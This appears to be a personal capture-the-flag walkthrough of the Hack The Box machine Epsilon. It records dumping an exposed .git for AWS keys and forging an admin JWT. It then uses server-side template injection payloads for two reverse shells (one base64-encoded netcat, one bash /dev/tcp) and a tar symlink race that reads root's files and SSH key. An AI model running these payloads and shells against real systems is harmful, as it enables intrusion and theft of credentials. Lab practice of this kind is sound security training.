 https://0xdf.gitlab.io/2022/03/10/htb-epsilon.html

### Gitdumper to get aws keys
```bash
/opt/GitTools/Dumper/gitdumper.sh http://10.129.96.151/.git/ .

aws_access_key_id='AQLA5M37BDN6FJP76TDC',
aws_secret_access_key='OsK0o/glWwcjk2U3vVEowkvq5t4EiIreB+WdFo1A',
endpoint_url='http://cloud.epsilon.htb')
```

add it to host file

### Explore Lambda
##### aws lambda help. list-functions seems like a good place to start:
```bash
aws lambda list-functions --endpoint-url=http://cloud.epsilon.htb
```

##### Only one function, costume_shop_v1. To get the code, I need the location, which I can find with get-function:
```bash
aws lambda get-function --function-name=costume_shop_v1 --endpoint-url=http://cloud.epsilon.htb
```
##### This output has Code, which has the location of the source. I’ll download that:
```bash
wget http://cloud.epsilon.htb/2015-03-31/functions/costume_shop_v1/code
```

### Access Costume Site /home
Use the `secret='RrXCv`mrNe!K!4+5`wYq' #apigateway authorization for CR-124` from lambda and server.py code to forge a jwt token.

```python
>>> import jwt
>>> secret='RrXCv`mrNe!K!4+5`wYq'
>>> jwt.encode({"username":"admin"}, secret, algorithm='HS256')
'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.WFYEm2-bZZxe2qpoAtRPBaoNekx-oOwueA80zzb3Rc4'
```

### SSTI /order
Payloadallthethings win this round

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#exploit-the-ssti-by-calling-ospopenread

```txt
{{ cycler.__init__.__globals__.os.popen('id').read() }}
{{ joiner.__init__.__globals__.os.popen('id').read() }}
{{ namespace.__init__.__globals__.os.popen('id').read() }}
```

All three work fine with burp. Firefox resending is hard to manage as the url encoding is complicated.

##### base64
```burp
costume={{ joiner.__init__.__globals__.os.popen('echo cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxzaCAtaSAyPiYxfG5jIDEwLjEwLjE2LjcgODAgPi90bXAvZg== | base64 -d | sh').read() }}&q=1&addr=2
```

##### URL encode
```burp
costume={{ namespace.__init__.__globals__.os.popen('bash -c "bash -i >%26 /dev/tcp/10.10.16.7/443 0>%261"').read() }}&q=1&addr=test
```

I’ll need to URL encode the `&` character of the POST request will treat it as a break and a new parameter. I’ll use a Bash reverse shell, with bash -c '' to make sure it’s running in the Bash context 

`bash -c "bash -i >%26 /dev/tcp/10.10.16.7/5000 0>%261"`

### Script
https://gtfobins.github.io/gtfobins/script/

```bash
tom@epsilon:/var/www/app$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
tom@epsilon:/var/www/app$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo;fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
tom@epsilon:/var/www/app$
```

### Enum root
##### ctf way
`find / -type f -name \*backup\* 2>/dev/null`

##### pspy 
```bash
2023/01/12 02:58:01 CMD: UID=0    PID=65741  | /bin/bash /usr/bin/backup.sh 
2023/01/12 02:58:01 CMD: UID=???  PID=65742  | ???
2023/01/12 02:58:01 CMD: UID=0    PID=65744  | /usr/bin/tar -cvf /opt/backups/622591224.tar /var/www/app/ 
2023/01/12 02:58:01 CMD: UID=0    PID=65746  | /bin/bash /usr/bin/backup.sh 
2023/01/12 02:58:01 CMD: UID=0    PID=65745  | sha1sum /opt/backups/622591224.tar 

tom@epsilon:/tmp$ cat /usr/bin/backup.sh
#!/bin/bash
file=`date +%N`
/usr/bin/rm -rf /opt/backups/*
/usr/bin/tar -cvf "/opt/backups/$file.tar" /var/www/app/
sha1sum "/opt/backups/$file.tar" | cut -d ' ' -f1 > /opt/backups/checksum
sleep 5
check_file=`date +%N`
/usr/bin/tar -chvf "/var/backups/web_backups/${check_file}.tar" /opt/backups/checksum "/opt/backups/$file.tar"
/usr/bin/rm -rf /opt/backups/*
```

date +%N returns the nanosecond porton of the current time. This effectively gives a random number.

The script:

    Removes all files and folders in /opt/backups.
    Creates a Tar archive called /opt/backups/[date str].tar with the contents of /var/www/app.
    Creates /opt/backups/checksum which contains the SHA1 hash of the new .tar file.
    Sleeps for five seconds
    Create a new Tar archive in /var/backups/web_backups containing the first archive and the checksum file.
    Remove all files and folders from /opt/backups.

The second `tar` command adds `-h` to the parameters. From the man page:

```bash
-h, --dereference
	Follow symlinks; archive and dump the files they point to.
	```

The vulnerablity is the usage of `h` for tar. It follows symlinks and compress their contents.

In order to exploit it, use `/opt/backups/checksum` to store a symlink to `/root/.ssh`. This must be configured after the first execution of `tar`. We only have around 5 seconds.

### Therefore bash
This will loop ever second, each time checking for the existence of `checksum` in the current directory. When it does exist, it will remove it, and replace it with a symbolic link. Then it prints, sleeps, and prints again, and exits the loop.
```bash
while :; do 
	if test -f checksum; then 
		rm -f checksum; 
		ln -s /root checksum; 
		echo "Replaced checksum"; 
		sleep 5; 
		echo "Backup probably done now";
		break;
	fi; 
	sleep 1; 
done
```

```bash
tom@epsilon:/opt/backups$ chmod +x a.sh 
tom@epsilon:/opt/backups$ ./a.sh 
Replaced checksum

Backup probably done now
tom@epsilon:/opt/backups$ 
tom@epsilon:/opt/backups$ cd /var/backups/web_backups/
tom@epsilon:/var/backups/web_backups$ ls -l
total 79440
-rw-r--r-- 1 root root  1003520 Jan 12 03:55 210287155.tar
-rw-r--r-- 1 root root 80343040 Jan 12 03:56 234453423.tar
tom@epsilon:/var/backups/web_backups$ cp 234453423.tar /dev/shm/
tom@epsilon:/var/backups/web_backups$ cd /dev/shm/
tom@epsilon:/dev/shm$ tar xf 
234453423.tar  multipath/     
tom@epsilon:/dev/shm$ tar xf 234453423.tar 
tar: opt/backups/checksum/.bash_history: Cannot mknod: Operation not permitted
tar: Exiting with failure status due to previous errors
tom@epsilon:/dev/shm$ ls
234453423.tar  multipath  opt
tom@epsilon:/dev/shm$ cd opt/backups/
tom@epsilon:/dev/shm/opt/backups$ ls -l
total 972
-rw-r--r-- 1 tom tom 993280 Jan 12 03:56 223939469.tar
drwx------ 9 tom tom    300 Jan 11 08:16 checksum
tom@epsilon:/dev/shm/opt/backups$ cd checksum/
tom@epsilon:/dev/shm/opt/backups/checksum$ ls -l
total 12
-rw-r--r-- 1 tom tom 356 Nov 17  2021 docker-compose.yml
-rwxr-xr-x 1 tom tom 453 Nov 17  2021 lambda.sh
-rw-r----- 1 tom tom  33 Jan 11 08:16 root.txt
drwxr-xr-x 2 tom tom  60 Dec 20  2021 src
tom@epsilon:/dev/shm/opt/backups/checksum$ cat root.txt 
67f633687ed95cd6232a89ef2a1a2bd9
tom@epsilon:/dev/shm/opt/backups/checksum$ ls .ssh/
authorized_keys  id_rsa  id_rsa.pub
```